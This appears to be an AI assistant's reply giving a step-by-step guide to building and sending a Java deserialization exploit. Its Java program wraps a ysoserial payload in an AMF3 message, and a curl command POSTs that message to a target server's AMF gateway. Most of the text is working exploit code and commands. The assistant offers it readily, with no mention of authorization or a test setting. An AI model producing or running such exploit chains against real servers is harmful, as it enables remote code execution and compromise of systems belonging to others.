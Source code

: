 # Note

Certainly! Here's a recap of the steps to generate and send an AMF payload containing a `ysoserial` payload using Java:

### Step-by-Step Guide

#### Step 1: Generate the `ysoserial` Payload

Ensure you have already generated the `ysoserial` payload and saved it at `./payload`.

#### Step 2: Set Up Your Java Environment

Make sure you have Java Development Kit (JDK) installed on your system.

#### Step 3: Create `AMFPayloadGenerator.java`

Create a Java program named `AMFPayloadGenerator.java` with the following code:

```java
import flex.messaging.io.amf.ASObject;
import flex.messaging.io.amf.Amf3Output;
import flex.messaging.io.SerializationContext;

import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;

public class AMFPayloadGenerator {

    public static void main(String[] args) throws IOException {
        // Step 1: Read the ysoserial payload
        String ysoserialPayloadFile = "./payload";
        FileInputStream fis = new FileInputStream(ysoserialPayloadFile);
        ByteArrayOutputStream buffer = new ByteArrayOutputStream();
        byte[] temp = new byte[1024];
        int bytesRead;
        while ((bytesRead = fis.read(temp)) != -1) {
            buffer.write(temp, 0, bytesRead);
        }
        byte[] ysoserialPayload = buffer.toByteArray();
        fis.close();

        // Step 2: Create an ASObject to hold the payload
        ASObject asObject = new ASObject();
        asObject.put("exploit", ysoserialPayload);

        // Step 3: Serialize the ASObject to AMF format
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Amf3Output amf3Output = new Amf3Output(SerializationContext.getSerializationContext());
        amf3Output.setOutputStream(baos);
        amf3Output.writeObject(asObject);
        amf3Output.flush();

        // Step 4: Write the serialized AMF message to a file
        byte[] amfPayload = baos.toByteArray();
        baos.close();
        FileOutputStream fos = new FileOutputStream("amf_request.bin");
        fos.write(amfPayload);
        fos.close();

        System.out.println("AMF payload generated successfully.");
    }
}
```

#### Step 4: Compile `AMFPayloadGenerator.java`

Compile the Java program using `javac` and include the BlazeDS libraries in the classpath. Adjust the path to the libraries (`/usr/lib/java/flex/`) as necessary:

```sh
javac -cp .:/usr/lib/java/flex/* AMFPayloadGenerator.java
```

#### Step 5: Run `AMFPayloadGenerator`

Run the compiled Java program using the class name `AMFPayloadGenerator` (without the `.class` extension) and include the same classpath:

```sh
java -cp .:/usr/lib/java/flex/* AMFPayloadGenerator
```

Ensure the output says:

```
AMF payload generated successfully.
```

This confirms that `amf_request.bin` has been generated.

#### Step 6: Send the AMF Payload

After generating `amf_request.bin`, you can send it to the target server. Here’s how you can do it using `curl`:

**Using `curl`**:

```sh
curl -X POST http://example.com/pfx-gateway/amf \
  -H "Content-Type: application/x-amf" \
  -H "Accept: application/x-amf" \
  --data-binary @amf_request.bin
```

### Summary

Following these steps allows you to generate and send an AMF payload containing a `ysoserial` payload using Java. Ensure you adjust paths and filenames based on your specific environment and requirements. If you encounter any errors, please provide specific error messages for further assistance.
